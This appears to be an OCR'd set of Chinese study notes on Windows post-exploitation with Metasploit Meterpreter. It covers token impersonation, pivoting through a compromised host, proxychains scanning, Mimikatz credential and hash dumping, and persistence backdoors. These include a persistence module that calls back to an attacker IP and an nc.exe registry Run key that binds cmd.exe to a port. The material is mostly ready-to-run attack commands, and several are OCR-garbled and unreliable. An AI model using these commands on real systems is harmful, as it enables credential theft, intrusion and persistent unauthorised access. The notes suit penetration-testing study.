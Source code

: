 ## 令牌假冒

1. 令牌假冒简介

假冒令牌可以假冒一个网络中的另一个用户进行各种操作。令牌包括登录会话的安全信息，如用户身份识别、用户组和用户权限。当一个用户登录Windows系统时，它被给定一个访问令牌作为它认证会话的一部分。例如，一个入侵用户可能需要以域管理员处理一个特定任务，当它使用令牌便可假冒域管理员进行工作。

2. Windows安全相关概念

Session、Windows Station、Desktop、Login Session（不同账号不同，权限也不同）

3. Token简介

（1）与进程相关联，进程创建时根据LoginSession分配对应Token，含有该进程用户账号、组信息、权限信息等。

（2）用户每次登录，产生LoginSession分配对应Token。

（3）访问资源时提交Token进行身份验证，类似于Web Cookies。

（4）Delegate Token：交互登录会话。

（5）Impersonate Token：非交互登录会话。

4. Incognito
   + 独立软件，被集成到msf的meterpreter中
   + 不能获取账号密码，窃取Token将自己维护装成合法用户
   + 适用于域环境下提权渗透多操作系统

## 内网跳板

![](./picture/tiaoban.png)

## 跳板攻击

1. Pivoting

* 利用已经被入侵的主机作为跳板来攻击网络中的其他系统
* 访问由于路由问题而不能直接访问的内网系统

2. 自动路由

* Run autoroute -s 192.168.102.0/24
* Run post/multi/manage/autoroute
* 利用win7攻击内网服务器
* 扫描内网网络:
  * Run post/windows/gather/arp_scanner rhosts=192.168.102.0/24
  * use auxiliary/scanner/portscan/tcp

![](./picture/02.png)

## Proxychains代理设置

1. Socket代理 

* auxiliary/server/socket4

2. ProxyChains

* ProxyChains是为GNU\Linux操作系统而开发的工具，任何TcP连接都可以通过TOR或者sOcKS4, SoCKS5,HTTP /HTTPs路由到目的地。在这个通道技术中可以使用多个代理服务器。除此之外提供匿名方式，诸如用于中转跳板的应用程序也可以用于对发现的新网络进行直接通信。
* proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-mso8-067.nse 192.168.103.128

## Mimikatz

1. 介绍

Mimikatz是一款后渗透测试工具。它能够从Windows认证(LSASs)的进程中获取内存，并且获取明文密码和NTLM哈希值的工具。已被metasploit集成到meterpreter中作为一个脚本，允许方便地访问它一系列的特性，而不需要上传任何文件到目标机器上。

2. 相关命令

* 导出Hash和认证信息:msv
* 导出Kerberos认证信息:Kerberos
* 获取本地用户信息及密码: wdigest
* Mimikatz_command -f samdump:hashes
* Mimikatz_command -f sekurlsa:searchPasswords
* Mimikatz_command -f handle::list
* Mimikatz_command -f service::list
* Mimikatz_command -f crypto:listProviders
* Mimikatz_command -f nogpo::cmd

## 后门植入

1. 为什么要植入后门

* Meterpreter Shell运行于内存中，重启即失效
* 避免重复性的渗透工作
* 漏洞修复后仍旧可就维持控制

2. Meterpreter后门：Metsvc

* 通过服务启动
* Run metsvc -A     # 设定端口，上传后门文件

3. Meterpreter后门：Persistence

* 通过启动型启动
* 特性：定期会连、系统启动时回连、自动运行
* Run persistence-A- -S-U-i 60-p 4321 -r 192.168.101.111

4. NC后门

   （1）上传nc：Upload /root/nc.exe C:\windows\\system32

   （2）修改注册表：

   * 枚举注册表键值：reg enumkey -k HKLM\\softwarel\microsoft\lwindows\\currentversion\run
   * 在当前主键下增加一个nc键值：reg setval -k HKLM\\software' \microsoft\lwindowsllcurrentversion\\run -V nc -d
     'C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe'
   * 查看nc键值：reg queryval -k HKLM\\software\\microsoft\lwindows\\currentversion\\Run -V nc

